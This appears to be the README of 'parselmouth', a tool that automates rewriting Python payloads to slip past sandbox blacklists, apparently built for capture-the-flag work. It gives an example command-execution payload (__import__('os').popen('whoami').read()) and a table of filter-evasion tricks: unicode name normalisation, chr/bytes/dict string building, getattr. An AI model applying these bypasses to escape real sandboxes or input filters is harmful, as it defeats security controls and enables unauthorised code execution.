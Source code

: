 # parselmouth
一个自动化的 Python 沙箱逃逸 payload bypass 框架

<img alt="image" src="https://github.com/Macr0phag3/parselmouth/assets/20874963/e4f2765d-ba39-49ba-bcf7-02ab3e83a042">

## 1. 快速入门
- python 版本最好是 >= 3.10
- 安装依赖: `pip install -r requirements`

### 1.1 通过 CLI 使用
- 获取帮助信息：`python parselmouth.py -h`
- 指定 payload 与 rule: `python parselmouth.py  --payload "__import__('os').popen('whoami').read()" --rule "__" "." "'" '"' "read" "chr"`
- 友情提示，通过 win 命令行使用，如果需要指定 `"`，则要用 `"\""`，如果用 `'"'` 会出现非预期情况（我大概知道是啥原因但是我懒得管 win :)
- 可以通过 `--specify-bypass` 指定 bypass function 的黑白名单；例如如果不希望 int 通过 unicode 字符的规范化进行 bypass，可以指定参数: `--specify-bypass '{"black": {"Bypass_Int": ["by_unicode"]}}'`
- `--ensure-min`：寻找最小的 exp
- 通过指定参数 `-v` 可以增加输出的信息；通过 `-vv` 可以输出 debug 信息，但通常是不需要的

在定制化 bypass 函数之后，如果想做测试，可以将测试的 payload 和 rule 放在 `run_test.py` 里面，然后通过 `python run_test.py` 进行测试

### 1.2 通过 import 使用
```python
import parselmouth as p9h


p9h.BLACK_CHAR = [".", "'", '"', "chr", "dict"]
runner = p9h.P9H(
    "__import__('os').popen('whoami').read()",
    specify_bypass_map={"black": {"Bypass_Name": ["by_unicode"]}}, 
    ensure_min=True, versbose=0,
)
result = runner.visit()
status, c_result = p9h.color_check(result)
print(status, c_result, result)
```

`p9h.P9H` 关键参数解释：
- `source_code`: 需要 bypass 的 payload
- `specify_bypass_map`: 指定 bypass function 的黑白名单；例如如果不希望变量名通过 unicode 字符的规范化进行 bypass，可以传参 `{"black": {"Bypass_Name": ["by_unicode"]}}`
- `ensure_min`: 寻找最小的 exp
- `versbose`: 输出的详细程度（`0` ~ `3`）
- `depth`: 通常情况下不需要使用这个参数；打印信息时所需要的缩进数量
- `bypass_history`: 通常情况下不需要使用这个参数；用于缓存 `可以 bypass` 和 `不可以 bypass` 的已知情况，值示例 `{"success": {}, "failed": []}`

### 1.3 定制化使用
**在定制化之前，最好先阅读下[这篇解释原理的文章](https://www.tr0y.wang/2024/03/04/parselmouth/)以及 `parselmouth.py`、`bypass_tools.py` 的主要代码**

方法一：参考文章 [传送门](https://www.tr0y.wang/2024/03/04/parselmouth/#%E5%AE%9A%E5%88%B6%E5%8C%96%E5%BC%80%E5%8F%91)

方法二：
- 要新增一个 ast 类型的识别与处理，需要在 `parselmouth.py` 中的 `P9H` 新增一个 `visit_` 方法
- 如果希望通过与目标交互的方式进行 payload 检查，可以改写 check 方法，原则是如果检查通过返回空 `[]`；如果检查不通过的话，最好是返回不通过的字符，如果条件有限，返回任意不为空的列表也可以
- 对已有的 ast 类型，需要新增不同的处理函数，则需要在 `bypass_tools.py` 中找到对应的 bypass 类型，并新增一个 `by_` 开头的方法。同一个类下的 bypass 函数，使用顺序取决于对应类中定义的顺序，先被定义的函数会优先尝试进行 bypass


## 2. 当前 bypass function

目前支持：

|  类   |   方法名  | payload | bypass | 解释说明 |
| ----- | -------- | ------- | ------- | ----- |
| Bypass_Int    | by_trans | `0` | `len(())` | |
| Bypass_Int    | by_bin   | `10` | `0b1010` |将数字转为二进制 |
| Bypass_Int    | by_hex   | `10` | `0xa`    |将数字转为十六进制 |
| Bypass_Int    | by_cal   | `10` | `5*2`    |将数字转为算式 |
| Bypass_Int    | by_unicode   | `10` | `int('𝟣𝟢')`    | int + unicode 绕过|
| ————   | ————   | ———— | ———— | ————|
| Bypass_String    | by_empty_str   | `""` | `str()`  | 构造空字符串 |
| Bypass_String    | by_quote_trans   | `"macr0phag3"` | `'macr0phag3'`  | 单双引号互相替换 |
| Bypass_String    | by_reverse   | `"macr0phag3"` | `"3gahp0rcam"[::-1]`    | 字符串逆序绕过|
| Bypass_String    | by_char   | `"macr0phag3"` |  `(chr(109) + chr(97) + chr(99) + chr(114) + chr(48) + chr(112) + chr(104) + chr(97) + chr(103) + chr(51))`   | char 绕过字符限制|
| Bypass_String    | by_dict   | `"macr0phag3"` | `list(dict(amacr0phag3=()))[0][1:]`  | dict 绕过限制|
| Bypass_String    | by_bytes_single   | `"macr0phag3"` | `str(bytes([109]))[2] + str(bytes([97]))[2] + str(bytes([99]))[2] + str(bytes([114]))[2] + str(bytes([48]))[2] + str(bytes([112]))[2] + str(bytes([104]))[2] + str(bytes([97]))[2] + str(bytes([103]))[2] + str(bytes([51]))[2]`  | bytes 绕过限制|
| Bypass_String    | by_bytes_full   | `"macr0phag3"` | `bytes([109, 97, 99, 114, 48, 112, 104, 97, 103, 51])`  | bytes 绕过限制 2|
| Bypass_String    | by_join_map_str   | `"macr0phag3"` | `str().join(map(chr, [109, 97, 99, 114, 48, 112, 104, 97, 103, 51]))`  | format 绕过限制 2|
| Bypass_String    | by_format   | `"macr0phag3"` | `'{}{}{}{}{}{}{}{}{}{}'.format(chr(109), chr(97), chr(99), chr(114), chr(48), chr(112), chr(104), chr(97), chr(103), chr(51))`  | format 绕过限制 2|
| ————   | ————   | ———— | ———— | ————|
| Bypass_Name    | by_unicode   | `__import__` | `_＿import_＿` | unicode 绕过|
| ————   | ————   | ———— | ———— | ————|
| Bypass_Attribute    | by_getattr   | `str.find` | `getattr(str, 'find')` | unicode 绕过|
| ————   | ————   | ———— | ———— | ————|
| Bypass_Keyword    | by_unicode   | `str(object=1)` | `str(ᵒbject=1)` | unicode 绕过|


以及上述所有方法的组合 bypass。

如果在使用的过程中发现有比较好用的 bypass 手法，或者任何问题都可以提交 issue :D

以及不论通过或没通过这个工具解开题目，都欢迎提交 issue 帮忙补充案例，多谢~

## 3. Others
<img src="https://clean-1252075454.cos.ap-nanjing.myqcloud.com/20200528120800990.png" width="400">

[![Stargazers over time](https://starchart.cc/Macr0phag3/parselmouth.svg)](https://starchart.cc/Macr0phag3/parselmouth)
